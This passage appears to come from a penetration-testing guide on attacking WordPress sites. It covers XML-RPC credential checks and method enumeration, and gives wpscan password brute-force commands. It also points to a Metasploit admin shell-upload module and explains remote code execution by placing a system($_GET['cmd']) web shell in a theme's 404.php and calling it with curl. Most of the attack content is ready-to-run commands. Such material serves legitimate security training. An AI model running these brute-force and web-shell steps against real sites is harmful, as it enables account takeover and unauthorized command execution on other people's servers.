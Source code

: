 If the credentials are not valid, we will receive a **403 faultCode error**. We can enumerate the aviable methods replacing `wp.getUsersBlogs` by `system.listMethods`.

We can try bruteforcing with wpscan:
```console
zero@pio$ sudo wpscan --password-attack xmlrpc -t 20 -U <USER> -P <WORDLIST> --url http://<TARGET>
```

Also, the `use exploit/unix/webapp/wp_admin_shell_upload` module from Metasploit could help us.

## WPScan 

WPScan is an automated WordPress scanner and enumeration tool. It determines if the various themes and plugins used by a WordPress site are outdated or vulnerable.

---

# Exploitation

## Exploiting a Vulnerable Plugin 

### Leveraging WPScan Results 

With the report from WPScan we can try to use the vulnerabilities found. Each vulnerability has his way to exploit, some of them can be easily find, others can haven't a public POO.

## Attacking WordPress Users 

### WordPress User Bruteforce 

WPScan can be used to brute force usernames and passwords. The tool uses two kinds of login brute force attacks, **xmlrpc** and **wp-login**. The **wp-login** method will attempt to brute force the normal WordPress login page, while the **xmlrpc** method uses the WordPress API to make login attempts through `/xmlrpc.php`{: .filepath}. The **xmlrpc** method is preferred as it is faster. We can do with the following command:
```console
zero@pio$ wpscan --password-attack xmlrpc -t 20 -U <USER> -P <WORDLIST> --url http://<TARGET>
```

## RCE via the Theme Editor

### Attacking the WordPress Backend 

With administrative access to WordPress, we can modify the PHP source code to execute system commands. Click on **Appearance** on the side panel and select **Theme Editor**. This page will allow us to edit the PHP source code directly. For example, adding `system($_GET['cmd']);` to a page like `404.php`:
```console
zero@pio$ curl -X GET "http://<TARGET>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```
